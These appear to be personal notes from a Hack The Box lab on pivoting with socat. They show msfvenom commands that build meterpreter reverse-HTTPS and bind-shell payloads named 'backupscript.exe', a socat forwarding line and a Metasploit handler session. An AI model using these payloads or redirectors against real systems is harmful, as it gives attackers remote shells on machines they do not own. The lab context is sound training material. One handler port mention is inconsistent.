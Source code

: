 #### Creating a Reverse Shell

```shell
c4ndy@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

And we can run multi/hander on port  80 

---
# Socat Redirection with Bind Shell

Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. The below figure should explain the pivot in a much better way.

![](https://academy.hackthebox.com/storage/modules/158/55.png)

#### Creating the Windows Payload

```shell
c4ndy@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.

#### Starting Socat Bind Shell Listener

```c
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

#### Configuring & Starting the Bind multi/handler

```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

# Note : 
